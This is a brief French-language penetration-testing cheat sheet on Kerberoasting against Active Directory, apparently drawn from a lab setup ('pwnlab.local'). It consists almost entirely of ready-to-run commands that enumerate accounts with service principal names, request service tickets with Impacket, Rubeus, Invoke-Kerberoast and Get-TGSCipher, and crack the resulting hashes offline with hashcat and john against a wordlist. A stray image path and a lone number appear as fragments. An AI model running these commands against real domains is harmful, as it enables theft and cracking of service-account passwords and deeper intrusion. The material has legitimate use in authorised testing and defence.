 ## Kerberoasting
Permet à un utilisateur de demander un ticket de service pour n'importe quel service avec un SPN enregistré, puis d'utiliser ce ticket pour déchiffrer le mot de passe du service. **Si le service a un SPN enregistré, il peut être Kerberoastable**

**Impacket**

```sh
impacket-GetUserSPNs.py pwnlab.local/user:password -dc-ip 192.168.x.x -request
```

**Rubeus**
55
```sh
C:\Users\Administrator> Rubeus.exe kerberoast /outfile:hash.txt
```

```
hashcat -m 13100 -a 0 hash.txt /opt/rockyou.txt
```

**Invoke-Kerberoast**

```sh
C:\Users\Administrator> Invoke-Kerberoast -domain pwnlab.local | Export-CSV -NoTypeInformation output.csv
john --session=Kerberoasting output.csv
```

---

Acceder au system compromis et chercher les SPN vulnerables

```c
. .\Find-PotentiallyCrackableAccounts.ps1

Find-PotentiallyCrackableAccounts
```

```c
setspn.exe -Q */*
```

Demander un ticket pour le TGS

```c
. .\Get-TGSCipher.ps1
Get-TGSCipher -SPN "SPN" -Format john
```